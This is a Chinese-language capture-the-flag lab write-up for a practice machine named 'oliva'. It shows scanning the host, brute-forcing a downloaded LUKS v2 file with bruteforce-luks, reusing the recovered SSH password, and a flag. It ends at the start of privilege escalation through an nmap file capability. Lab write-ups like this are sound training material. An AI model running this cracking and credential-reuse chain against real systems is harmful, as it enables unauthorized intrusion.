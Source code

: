 

|   |   |   |
|---|---|---|
|oliva|easy|LUKS v2破解、bruteforce-luks工具使用、cryptsetup使用、cap_dac_read_search=eip、mysql使用|
# 主机发现
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.148/24
```

# 服务扫描
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.148 
```

22，80
访问hhtp首页，点击click
自动下载出oliva文件
# LUKS v2 加密文件
file 查看是一份LUKS v2 加密文件
```c
┌──(kali㉿kali)-[~/下载]
└─$ file oliva
oliva: LUKS encrypted file, ver 2, header size 16384, ID 3, algo sha256, salt 0x14fa423af24634e8..., UUID: 9a391896-2dd5-4f2c-84cf-1ba6e4e0577e, crc 0x6118d2d9b595355f..., at 0x1000 {"keyslots":{"0":{"type":"luks2","key_size":64,"af":{"type":"luks1","stripes":4000,"hash":"sha256"},"area":{"type":"raw","offse

```

```c
┌──(kali㉿kali)-[~/下载]
└─$ sudo apt install bruteforce-luks


一直爆破到第970多个
Password found: bebita

```

爆破获取加密口令后，我们使用cryptsetup打开该文
```c
┌──(kali㉿kali)-[~/下载]
└─$ sudo cryptsetup luksOpen oliva olia_img
输入 oliva 的口令： bebita

```

打开后文件是在这个路径下创建的 /dev/mapper/olive_img，然后我们可以mount 命令挂载该文件。
```c
mount  /dev/mapper/olive_img /mnt
```

或者使用文件管理器打开文件

```
cryptsetup open --type luks oliva oliva
```

进去里面可以看到一份密码
```c
┌──(kali㉿kali)-[/media/kali/7839beec-705e-45c5-a982-3096ac116f6e]
└─$ cat mypass.txt 
Yesthatsmypass!

```

尝试用户名密码
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh oliva@192.168.44.148  
//用户：oliva
//密码：Yesthatsmypass!

oliva@oliva:~$ cat user.txt 
HMVY0H8NgGJqbFzbgo0VMRm
```

# 提权

**getcap** 命令是在 Linux 系统中用于查看文件的特殊权限（capabilities）的工具。
```c
oliva@oliva:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

